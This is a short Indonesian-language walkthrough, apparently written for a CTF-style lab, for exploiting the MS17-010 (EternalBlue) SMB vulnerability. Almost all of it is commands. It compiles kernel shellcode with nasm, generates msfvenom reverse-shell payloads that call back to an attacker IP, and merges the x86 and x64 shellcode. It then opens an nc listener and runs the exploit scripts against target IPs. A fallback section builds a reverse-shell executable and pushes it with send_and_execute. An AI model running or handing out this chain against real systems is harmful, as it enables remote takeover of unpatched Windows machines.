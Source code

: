 # Eternal Blue

pake repo ini https://github.com/worawit/MS17-010

setelah git clone sekarang lanjut buat shellcode x86 dan x64 
digabung shellcodenya

compile semua archnya

# x64 

compile x64 shellcode

    nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin

buat payload x64 msfvenom

    msfvenom -p windows/x64/shell_reverse_tcp LPORT=1337 LHOST=10.10.14.25 --platform windows -a x64 --format raw -o sc_x64_payload.bin

lalu di gabung: 

    cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin 

# x86

compile x86 shellcode

    nasm -f bin eternalblue_kshellcode_x86.asm -o sc_x86_kernel.bin

buat payload x86 msfvenom

    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=1337 --platform windows -a x86 --format raw -o sc_x86_payload.bin

gabung file

    cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin


# Join & Exploit 

selanjutnya gabung semua shellcode jadi satu

    python2 eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin

setelah di gabung dan jadi file `sc_all.bin`, selanjutnya jalankan perintah nc dulu sebagai listener

    nc -lnvp 1337

lalu jalankan exploit

    python2 eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin



# KALO GA WORKS BISA PAKAI CARA INI

kalo windows tua, gabisa pakai cara diatas bisa coba ini https://github.com/helviojunior/MS17-010

# Buat exploit

    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=1337 -f exe > bd.exe

# Gunakan code send_and_execute

    python2 send_and_execute.py 10.10.10.4 bd.exe 

# shell

lalu jalankan reverse shell
    
    nc -lnvp 1337  